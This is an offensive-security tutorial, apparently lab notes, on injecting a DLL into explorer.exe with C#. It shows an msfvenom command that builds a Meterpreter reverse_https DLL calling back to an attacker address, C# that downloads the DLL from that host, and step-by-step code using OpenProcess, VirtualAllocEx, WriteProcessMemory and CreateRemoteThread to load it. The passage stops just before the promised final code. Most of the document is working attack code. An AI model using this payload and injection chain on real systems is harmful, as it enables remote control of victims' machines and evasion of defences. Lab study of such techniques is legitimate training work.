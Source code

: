 ## Practical
We start by generating a dll with msfvenom:
```bash
sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.150 LPORT=443 -f dll -o /var/www/html/met.dll
```
And then start a ConsoleApp project in Visual Studio.

We will start the code by writing the DLL to disk because _LoadLibrary_ only accepts files present on disk.
The code to save the dll on disk and getting it's path is as follows:
```C#
using System.Net;

String dir = Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
String dllName = dir + "\\met.dll";

WebClient wc = new WebClient();
wc.DownloadFile("http://192.168.49.150/met.dll", dllName);
```

Next, we'll resolve the process ID of explorer.exe and pass it to _OpenProcess_:
```c#
Process[] expProc = Process.GetProcessesByName("explorer");
int pid = expProc[0].Id;

IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
```

As usual, we use _VirtualAllocEx_ to allocate memory in the remote process that is readable and writable and then use _WriteProcessMemory_ to copy the path and name of the DLL into it:
```C#
IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x4);

IntPtr outSize;
Boolean res = WriteProcessMemory(hProcess, addr, Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
```

We will now resolve the base address of _LoadLibraryA_ inside the remote process.
This is easy as most native Windows DLLs are located at the same base address across processes, thus the address of our _LoadLibraryA_ API will be the same even in the remote process.

To locate the address, we'll use a combination of _GetModuleHandle_ and _GetProcAddress_.
```C#
IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
```

Finally, we can invoke _CreateRemoteThread_, this time supplying both a starting address and an argument address:

```C#
IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0, IntPtr.Zero);
```

Our final code is as follows:
